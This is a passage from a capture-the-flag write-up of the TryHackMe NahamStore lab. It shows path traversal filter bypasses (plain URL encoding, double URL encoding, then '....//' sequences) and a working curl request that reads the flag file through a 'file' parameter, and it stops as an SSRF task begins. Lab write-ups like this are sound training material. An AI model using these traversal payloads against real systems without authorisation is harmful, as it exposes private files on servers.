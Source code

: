 **Looks like there is a filter blocking path traversal?**

We might able to bypass it via **URL encoding:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a37.png)

Nope. How about **double URL encoding**?

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a38.png)

**Nope. Let's try `..//`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a39.png)

**It worked!! We can `curl` the flag:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl "http://nahamstore.thm/product/picture/?file=....//....//....//....//....//lfi/flag.txt"
{Redacted}
```

# Task 7 - SSRF

```
 The application has an SSRF vulnerability, see how you can exploit it to view an API that shouldn't be available.
```

1. Credit Card Number For Jimmy Jones

**In the `product` page, we can click the `Check Stock` button:**
